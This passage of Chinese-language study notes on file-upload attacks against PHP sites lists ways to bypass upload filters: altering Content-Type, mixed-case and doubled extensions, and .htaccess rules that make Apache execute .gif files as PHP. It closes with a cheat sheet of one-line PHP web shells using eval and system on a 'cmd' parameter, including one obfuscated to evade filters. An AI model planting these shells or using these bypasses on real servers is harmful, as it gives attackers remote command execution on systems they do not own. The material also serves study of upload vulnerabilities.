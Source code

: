 * 绕过方法

  抓包修改 `Content-Type` 中的类型

**文件拓展名检测**

服务端将检测文件的后缀名

* 绕过方法

  1. 文件名大小写绕过，如：`.PHp`
  2. 文件名双写绕过，如：`.pphphp`
  3. `.htaccess` 文件攻击

     > `.htaccess` 文件，全称是Hypertext Access
     > （超文本入口），是Apache服务器中的一个配置文件，这个文件可以针对目录改变配置，实现改变文件拓展名、允许/阻止特点用户的访问、禁止目录列表等功能，在一个文档的目录中存放一个包含一或多个指令的文件，可以修改这个目录及其子目录
     >
     > `.htaccess`文件内容第一种：针对所有文件的特定类型
     >
     > ```
     > <IfModule mime_module>
     > AddHandler php5-script .gif         
     > #在当前目录下，只针对gif文件会解析成Php代码执行
     > SetHandler application/x-httpd-php   
     > #在当前目录下，所有文件都会被解析成php代码执行
     > </IfModule>
     > ```
     >
     > 第二种：针对特定文件
     >
     > ```
     > <FilesMatch "文件名.gif">
     > SetHandler application/x-httpd-php   
     > #在当前目录下，如果匹配到 文件名.gif 文件，则被解析成PHP代码执行
     > AddHandler php5-script .gif          
     > #在当前目录下，如果匹配到 文件名.gif 文件，则被解析成PHP代码执行
     > </FilesMatch>
     > ```
     >

### php文件上传

**一句话木马**

先记录一点，之后有多的补充

```php
<?php phpinfo();?>
<?php eval($_POST['cmd']);?>
<?php eval($_REQUEST['cmd']);?>
<?php system($_POST['cmd']);?>

<?php
$a = 'Syst'."em";
($a)($_POST['cmd']);
?>
```
